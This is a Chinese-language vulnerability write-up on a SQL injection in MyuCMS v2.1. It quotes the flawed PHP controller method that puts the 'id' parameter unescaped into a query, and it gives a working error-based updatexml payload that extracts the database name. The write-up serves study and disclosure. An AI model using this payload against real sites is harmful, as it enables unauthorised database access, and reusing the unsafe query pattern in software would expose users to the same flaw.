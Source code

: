 MyuCMS v2.1 sql注入漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

在 CNVD 上的描述为，**MyuCMS us\**\*\_xi\**\*.html页面存在SQL注入漏洞**

通过对整个项目文件的搜索，最终确定为 **user\_xiaoxi.html** 文件。

该视图文件，对应的控制器为 **application/bbs/controller/User.php**
。显示消息为 **User-\>xiaoxi()**
方法。该方法中无用户可控参数。所以注入不可能在此方法中。

![1.jpg](/Users/aresx/Documents/VulWiki/.resource/MyuCMSv2.1sql注入漏洞/media/rId24.jpg)

如图所示功能处可将未读消息更改为已读消息。同时我们抓包观察。未读消息为其他用户在登录用户发布的文章下留言所产生。

![2.jpg](/Users/aresx/Documents/VulWiki/.resource/MyuCMSv2.1sql注入漏洞/media/rId25.jpg)

可以发现，该功能对应的路由地址，以及所提交的参数。我们找到路由地址对应的方法为
**User-\>xiaoxidel()** 代码如下

    public function xiaoxidel($ids)
        {
            if (!session('userid') || !session('username')) { // 进行登录判断
                $this->error('亲！请登录',url('bbs/login/index'));
            } else {
                if ($ids==0) { // 根据 ids 参数来判断执行的动作为标记消息还是删除消息
                $id = input('id'); // 通过input助手函数获取需要操作的消息对应的 id
                $data['open'] = 1;
                if (Db::name('xiaoxi')->where("id = {$id}")->where('userid', session('userid'))->update($data)) { // 此处第一个 where() 使用字符串条件时没有配合预处理机制，所以会直接将 id=$id 拼接到SQL语句中。从而造成了SQL语句可控，形成注入。此处可以进行DEBUG，看到最好的SQL语句是如何拼接的。
                    return json(array('code' => 200, 'msg' => '标记已读成功'));
                } else {
                    return json(array('code' => 0, 'msg' => '标记已读失败'));
                }
                }elseif ($ids==1){
                $id = input('id');
                if (Db::name('xiaoxi')->where("id = {$id}")->where('userid', session('userid'))->delete($id)) {
                    return json(array('code' => 200, 'msg' => '彻底删除成功'));
                } else {
                    return json(array('code' => 0, 'msg' => '彻底删除失败'));
                }
                }
            }
        }

上述代码中，**where()**
方法使用字符串条件，但并没有执行预编译。其实针对字符串条件，官方手册是做了说明的，显然这里没有遵守官方手册的意见，所以造成了SQL注入。

![3.png](/Users/aresx/Documents/VulWiki/.resource/MyuCMSv2.1sql注入漏洞/media/rId26.png)

### Payload

Payload如下

    Payload: id=2) and updatexml(1,concat(0x7e,(select database()),0x7e),1)  and (1

在下图所示位置打上断点，即可查执行的SQL语句

![4.jpg](/Users/aresx/Documents/VulWiki/.resource/MyuCMSv2.1sql注入漏洞/media/rId28.jpg)

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0
